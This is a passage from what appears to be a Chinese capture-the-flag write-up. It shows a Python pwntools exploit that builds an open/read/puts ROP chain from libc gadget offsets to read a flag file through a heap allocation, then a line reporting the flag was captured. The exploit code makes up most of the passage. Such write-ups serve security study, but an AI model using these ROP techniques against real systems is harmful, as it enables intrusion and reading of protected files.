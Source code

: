    ```python
   pop_rdi_ret = libc_base + 0x0000000000023b6a
   #pop_rsi_ret = libc_base + libc.search(asm('pop rsi;ret;')).__next__()
   pop_rsi_ret = libc_base + 0x000000000002601f
   #pop_rdx_ret = libc_base + libc.search(asm('pop rdx;ret;')).__next__()
   pop_rdx_ret = libc_base + 0x0000000000142c92
   
   flag_addr = stack_addr
   put = stack_addr + 0x200
   
   payload = b'./flag\x00\x00'
   # open('./flag', 0)
   # payload += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
   payload += flat(pop_rdi_ret,flag_addr,pop_rsi_ret,0,open_addr)
   # read(3, put, 0x50)
   # payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(put) + p64(pop_rdx_ret) + p64(0x50) + p64(read_addr)
   payload += flat(pop_rdi_ret,3,pop_rsi_ret,put,pop_rdx_ret,0x50,read_addr)
   # puts(put)
   
   # payload += p64(pop_rdi_ret) + p64(put) + p64(puts_addr)
   payload += flat(pop_rdi_ret,put,puts_addr)
   add(0x80, payload)
   
   p.interactive()
   ```
   
   成功拿到flag：
   
   ![image-20240722181926393](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221819534.png)
